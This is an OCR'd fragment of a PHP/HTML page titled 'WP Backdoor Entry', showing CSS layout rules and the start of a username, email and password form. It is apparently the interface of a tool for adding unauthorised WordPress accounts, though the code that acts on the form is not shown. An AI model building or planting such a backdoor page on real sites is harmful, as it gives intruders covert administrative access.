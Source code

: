   ```

    /* Floating column for labels: 25% width */
    .col-25 {
      float: left;
      width: 25%;
      margin-top: 6px;
    }

    /* Floating column for inputs: 75% width */
    .col-75 {
      float: left;
      width: 75%;
      margin-top: 6px;
    }

    /* Clear floats after the columns */
    .row:after {
      content: "";
      display: table;
      clear: both;
    }

    /* Responsive layout - when the screen is less than 600px wide, make the two columns stack on top of each other instead of next to each other */
    @media screen and (max-width: 600px) {

      .col-25,
      .col-75,
      input[type=submit] {
        width: 100%;
        margin-top: 0;
      }
    }
  </style>
</head>

<body>
  <div class="container">
    <h1>WP Backdoor Entry</h1>
    <form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST">
      <div class="row">
        <div class="col-25">
          <label for="fname">Username</label>
        </div>
        <div class="col-75">
          <input type="text" id="fname" name="name" placeholder="Username" required autocomplete="off">
        </div>
      </div>
      <div class="row">
        <div class="col-25">
          <label for="lname">Email</label>
        </div>
        <div class="col-75">
          <input type="email" id="lname" name="email" placeholder="E-Mail" required autocomplete="off">
        </div>
      </div>
      <div class="row">
        <div class="col-25">
          <label for="lname">Password</label>
        </div>
        <div class="col-75">
  ```